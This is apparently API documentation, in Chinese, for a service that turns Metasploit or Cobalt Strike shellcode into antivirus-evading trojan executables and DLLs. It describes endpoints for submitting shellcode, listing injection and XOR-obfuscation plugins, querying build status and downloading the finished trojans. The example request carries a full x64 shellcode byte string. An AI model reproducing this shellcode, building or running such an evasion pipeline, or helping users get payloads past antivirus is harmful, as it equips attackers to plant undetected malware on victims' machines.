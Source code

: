 ###  通过shellcode来生成免杀

`/api/shellcode_to_trojan/`通过shellcode来生成

```json
{
	"token": "xxx",
  "shellcode_name": "1",
	"shellcode_type": "1",
	"shellcode_architecture": "x64",
	"plugin":"Cpp_EXE_Windows_Null_Yes_CreateThreatPoolWait_20210908.py",
 "shellcode":"\\x48\\x31\\xc9\\x48\\x81\\xe9\\xc4\\xff\\xff\\xff\\x48\\x8d\\x05\\xef\\xff\\xff\\xff\\x48\\xbb\\xa0\\xa2\\xe9\\xe1\\xd3\\xa2\\xe2\\x2f\\x48\\x31\\x58\\x27\\x48\\x2d\\xf8\\xff\\xff\\xff\\xe2\\xf4\\xe8\\x93\\x20\\xa9\\x52\\x4b\\x2b\\xd0\\x5f\\x5d\\xa1\\x6c\\xd6\\x4d\\x1d\\xd0\\x5f\\xea\\x52\\xf9\\x05\\xa4\\x17\\xc1\\x0d\\x5b\\x63\\xa9\\xe2\\xfa\\xc5\\x67\\x8d\\x5a\\x16\\x1e\\x2c\\x40\\x16\\x7f\\x47\\x6d\\x54\\x8e\\x97\\x95\\x97\\xc8\\x89\\xec\\x91\\x0a\\x91\\xa4\\x97\\xc8\\x3e\\x1f\\xd2\\x85\\x3a\\x62\\x17\\x97\\xf5\\xa1\\x54\\x3e\\x26\\x7c\\x20\\x1a\\x8e\\x5b\\xe3\\xf0\\x9c\\xaf\\xee\\x8c\\xfb\\xd5\\xe2\\x46\\x2e\\xa1\\x59\\x42\\x7a\\x10\\x66\\x40\\x02\\xa1\\x59\\xf5\\x89\\xb2\\x4b\\x91\\x31\\x17\\x15\\xc7\\x2c\\xd5\\x52\\xf7\\xda\\x16\\x8b\\x45\\xcd\\x62\\x9c\\x4d\\x09\\x39\\xbf\\x4a\\xb6\\x55\\x39\\x0d\\x1c\\x8e\\x71\\xcb\\x73\\xd1\\x3f\\x2a\\x1c\\x8e\\xc6\\x38\\xdb\\x73\\x7a\\xf0\\xfb\\xba\\x91\\x3e\\xb6\\xe5\\x88\\xf2\\xab\\x5c\\x76\\x7c\\x01\\x2b\\x32\\x21\\x8e\\xe7\\xed\\xee\\x67\\xf6\\x12\\x97\\x39\\x29\\x6c\\x2b\\xe3\\xf0\\x30\\x97\\x39\\x9e\\x9f\\x05\\x05\\xcb\\x6c\\xa6\\x8b\\xc1\\x95\\xee\\xd7\\x47\\xe8\\x20\\xeb\\x2e\\xdb\\x59\\x19\\xfd\\x3b\\x37\\x6d\\x81\\x63\\x98\\x43\\xc8\\x7e\\xcb\\x25\\x43\\xd6\\x29\\xfb\\x5a\\x2f\\x9d\\x6d\\x33\\x55\\x0d\\xe3\\x83\\x2c\\xab\\x6d\\x89\\xd5\\x70\\xe3\\x83\\x2c\\xeb\\x6d\\x89\\xf5\\x38\\xe3\\x07\\xc9\\x81\\x6f\\x4f\\xb6\\xa1\\xe3\\x39\\xbe\\x67\\x19\\x63\\xfb\\x6a\\x87\\x28\\x3f\\x0a\\xec\\x0f\\xc6\\x69\\x6a\\xea\\x93\\x99\\x64\\x53\\xcf\\xe3\\xf9\\x28\\xf5\\x89\\x19\\x4a\\x86\\xb8\\x20\\x88\\xf6\\xcb\\x25\\x02\\xcf\\xed\\x6b\\x7c\\x19\\x83\\x24\\xd2\\xd7\\xe3\\xe3\\x10\\x3a\\x40\\x65\\x22\\xce\\x69\\x7b\\xeb\\x28\\x83\\xda\\xcb\\xc6\\xe3\\x9f\\x80\\x36\\xca\\xf3\\x4f\\xb6\\xa1\\xe3\\x39\\xbe\\x67\\x64\\xc3\\x4e\\x65\\xea\\x09\\xbf\\xf3\\xc5\\x77\\x76\\x24\\xa8\\x44\\x5a\\xc3\\x60\\x3b\\x56\\x1d\\x73\\x50\\x3a\\x40\\x65\\x26\\xce\\x69\\x7b\\x6e\\x3f\\x40\\x29\\x4a\\xc3\\xe3\\xeb\\x14\\x37\\xca\\xf5\\x43\\x0c\\x6c\\x23\\x40\\x7f\\x1b\\x64\\x5a\\xc6\\x30\\xf5\\x51\\x24\\x8a\\x7d\\x43\\xde\\x29\\xf1\\x40\\xfd\\x27\\x05\\x43\\xd5\\x97\\x4b\\x50\\x3f\\x92\\x7f\\x4a\\x0c\\x7a\\x42\\x5f\\x81\\x34\\xda\\x5f\\xcf\\xd2\\xaa\\x08\\x7e\\xcb\\x25\\x02\\x87\\x68\\xe3\\x85\\xf3\\xca\\x24\\x02\\x87\\x29\\x11\\x39\\xf5\\xa4\\xa2\\xfd\\x52\\xd3\\x5b\\xbd\\xdc\\x9d\\x64\\xb8\\x21\\xfd\\x16\\x95\\x81\\x1e\\x6d\\x81\\x43\\x40\\x97\\x0e\\x02\\xc1\\xa5\\xf9\\x67\\x1d\\xae\\xb3\\x39\\xd8\\x57\\x6d\\xed\\x68\\xf2\\x49\\xf7\\x11\\xda\\xd7\\xe4\\x09\\xc7\\x6b\\x50\\xae\\x5d\\x67\\x87\\x68\\xab\\x08\\x7e\\x68\\xe3\\x5e\\x68\\x2f"
}
```

> 参数解释

- `token`登录后返回的**token**
- `shellcode_name` 项目名字
- `shellcode` 通过**MSF**或者**CS**来生成的值，格式必须为`\\xFF`
- `shellcode_type`来自**MSF**传入1，来自**CS**传入2
- `shellcode_architecture`传入代码的类型，x86或者x64再或者其他架构
- `plugin`插件名称，通过`api/get_trojan_plugins`获取

> 返回状态码

- 161：呐呐呐！未知错误內~
- 169：呐呐呐！莎酱被玩坏啦(>^ω^<)
- 197：呐呐呐！你这插件有问题呀！快上服务器看看是不是写错了
- 200：宝贝任务已下发~
- 403：小宝贝这是非法请求哦(๑•̀ㅂ•́)و✧
- 410：未传入项目名称！
- 430：小伙子不要搞事情嗷，你不看看插件是否传入正确ლ(•̀ _ •́ ლ)
- 440：暂不支持其他架构~
- 450：呐呐呐！该种组合无法进行编译，请使用其他插件~
- 500：请使用Post请求
- 600：你的电脑不是Mac或者Linux无法使用该功能ლ(•̀ _ •́ ლ)
- 601：暂不支持Windows免杀方式~敬请关注后续更新

### 用户免杀数据查询

`/api/trojan_data_query/`用来查询当前用户下发的任务和状态

```json
{
	"token": "xxx",
	"number_of_pages":"20"
}
```

> 参数解释

- `token`登录后返回的**token**
- `number_of_pages`查询的页数，单页默认100个数据

> 返回状态码

- 169：呐呐呐！莎酱被玩坏啦(>^ω^<)

- 200：返回用户当前信息

  ```json
  {
  	"message": [{
  		"trojan_id": 1,
      "shellcode_name": "test",
  		"shellcode_type": "1",
  		"trojan_original_file_name": "ggkOx1629870349.c",
  		"trojan_generate_file_name": "ggkOx1629870349.exe",
  		"compilation_status": "0",
  		"creation_time": "1629870357",
  		"shellcode_architecture": "x64",
  		"plugin": "test.py"
  	}, {
  		"trojan_id": 4,
      "shellcode_name": "test2",
  		"shellcode_type": "1",
  		"trojan_original_file_name": "IJmXK1629877743.c",
  		"trojan_generate_file_name": "IJmXK1629877743.dll",
  		"compilation_status": "-1",
  		"creation_time": "1629877744",
  		"shellcode_architecture": "x64",
  		"plugin": "test-dll.py"
  	}, {
  		"trojan_id": 5,
      "shellcode_name": "test3",
  		"shellcode_type": "1",
  		"trojan_original_file_name": "ObOfz1630312479.c",
  		"trojan_generate_file_name": "ObOfz1630312479.dll",
  		"compilation_status": "1",
  		"creation_time": "1630312479",
  		"shellcode_architecture": "x64",
  		"plugin": "test-dll.py"
  	}],
  	"code": 200
  }
  ```

  > 返回参数解释

  - `trojan_id`项目的id值
  - `shellcode_name`项目名称
  - `shellcode_type`来自**MSF**为1，来自**CS**为2
  - `virus_original_file_name`生成的未编译的文件名
  - `virus_generate_file_name`生成编译好的文件名
  - `compilation_status`文件编译状态，0为未完成，1完成，-1出错
  - `creation_time`创建时间
  - `shellcode_architecture`当前shellcode使用架构
  - `plugin`生成的插件名称

- 403：小宝贝这是非法查询哦(๑•̀ㅂ•́)و✧

- 500：请使用Post请求



### 用户免杀数据个数

`/api/trojan_data_statistical/`个数统计

```json
{
	"token": "xxx"
}
```

> 参数解释

- `token`登录后返回的**token**

> 返回状态码

- 169：呐呐呐！莎酱被玩坏啦(>^ω^<)

- 200：返回数据大小

- 403：小宝贝这是非法查询哦(๑•̀ㅂ•́)و✧

- 500：请使用Post请求

### 获取用户当前木马插件内容

`/api/get_trojan_plugins/` 详细数据获取

```json
{
	"token": "xxx"
}
```

> 参数解释

- `token`登录后返回的**token**

> 返回状态码

- 169：呐呐呐！莎酱被玩坏啦(>^ω^<)

- 200：返回插件内容

  ```json
  {
  	"message": {
  		"1631074271-Cpp-EXE-Windows-Null-Yes-CreateThreatPoolWait.yaml": "CPP-EXE-Windows-XOR-Yes-MemoryEnforcement",
  		"1630383071-C-DLL-Windows-Null-Yes-MemoryEnforcement.yaml": "C-DLL-Windows-Null-Yes-MemoryEnforcement",
  		"1630469471-C-EXE-Windows-XOR-Yes-MemoryEnforcement.yaml": "C-EXE-Windows-XOR-Yes-MemoryEnforcement"
  	},
  	"code": 200
  }
  ```
  
  > 返回参数解释
  
  - `1631074271-Cpp-EXE-Windows-Null-Yes-CreateThreatPoolWait.yaml`该值为左边，本地文件名字需要传入`api/shellcode_to_trojan`接口的`plugin`参数中
  - `CPP-EXE-Windows-XOR-Yes-MemoryEnforcement`该值为右边，显示在前端页面上的

- 403：小宝贝这是非法查询哦(๑•̀ㅂ•́)و✧

- 500：请使用Post请求

### 木马文件下载验证接口

`/api/trojan_file_download_verification/` 

```http
GET /api/trojan_file_download_verification/ HTTP/1.1
Host: 127.0.0.1
TrojanId:3
TrojanGenerateFileName:atAVJ1634304342.dll
Token:qnHqFPQPuaQWZZxcqsFbgb7ojnPcRYX2npKlBEyHumcHuQvFFKxNuKUV6pdGccyDXhM42Tf5kg7GoKXnAxeO8YIOXk3sppchjpBvkoX5ZOeEYUWDGDgpGgsSOPC2qbVSAPGOJvCxasJglK6lr3awucxxagLxIob3VBc37ezlP6nIVRO9ZFgla4d3F81chM4k4umC4nwgQp741XqmNIkCHGC29e6hNZtMth29g245Y4dxLbGrqO8eM6uSZw
```

> 参数解释

参数放到header头中验证

- `token`登录后返回的**token**
- `trojan_id`通过`api/trojan_data_query`接口获取的值
- `trojan_generate_file_name`同上一样，需要和trojan_id与之对应

> 返回状态码

- 169：呐呐呐！莎酱被玩坏啦(>^ω^<)
- 200：直接下载成功
- 402：该文件不是你的，别瞎请求(๑•̀ㅂ•́)و✧

- 403：小宝贝这是非法查询哦(๑•̀ㅂ•́)و✧
- 500：请使用Post请求